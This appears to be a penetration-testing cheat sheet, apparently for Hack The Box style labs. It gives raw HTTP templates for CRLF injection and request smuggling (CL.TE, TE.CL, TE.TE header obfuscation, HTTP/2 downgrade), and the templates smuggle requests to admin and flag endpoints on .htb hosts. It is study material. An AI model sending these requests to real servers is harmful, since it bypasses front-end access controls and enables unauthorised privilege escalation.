


#web #http #request-smuggling #crlf

# HTTP Attacks (CRLF / Request Smuggling)

Raw-request templates. Related: [web-proxies](web-proxies.md) · [server-side-attacks](server-side-attacks.md)

## Contents
- [CRLF Characters](#crlf-characters)
- [CL.TE Smuggling (proxy uses Content-Length, server uses Transfer-Encoding)](#clte-smuggling-proxy-uses-content-length-server-uses-transfer-encoding)
- [TE.CL Smuggling (proxy uses Transfer-Encoding, server uses Content-Length)](#tecl-smuggling-proxy-uses-transfer-encoding-server-uses-content-length)
- [TE.TE Obfuscation (make one server ignore Transfer-Encoding)](#tete-obfuscation-make-one-server-ignore-transfer-encoding)
- [HTTP/2 Downgrade (H2.CL)](#http2-downgrade-h2cl)

> [!NOTE]
> Request smuggling relies on the front-end and back-end disagreeing about where one request ends and the next begins. Confirm which server honors which header before picking a technique.

## CRLF Characters
```text
\r = %0D (CR)   \n = %0A (LF)
```
Inject CRLF to split headers/responses.

## CL.TE Smuggling (proxy uses Content-Length, server uses Transfer-Encoding)
```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin.php?promote_uid=2 HTTP/1.1
Dummy: 
```
Smuggle a second request past the front-end.



## TE.CL Smuggling (proxy uses Transfer-Encoding, server uses Content-Length)
```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb

0

```
Smuggle using chunk-size obfuscation.



## TE.TE Obfuscation (make one server ignore Transfer-Encoding)
```text
Transfer-Encoding: chunked      <- leading space
Transfer-Encoding:[\x09]chunked  <- horizontal tab
Transfer-Encoding : chunked      <- space before colon
Transfer-Encoding: xchunked      <- substring match
```
Header obfuscations that downgrade TE.TE into CL.TE/TE.CL.

## HTTP/2 Downgrade (H2.CL)
```http
POST /index.php HTTP/2
Host: http2.htb
Content-Length: 0

POST /index.php?reveal_flag=1 HTTP/1.1
Foo: 
```
Inject a Content-Length that the back-end honors after the proxy rewrites H2→H1.1.
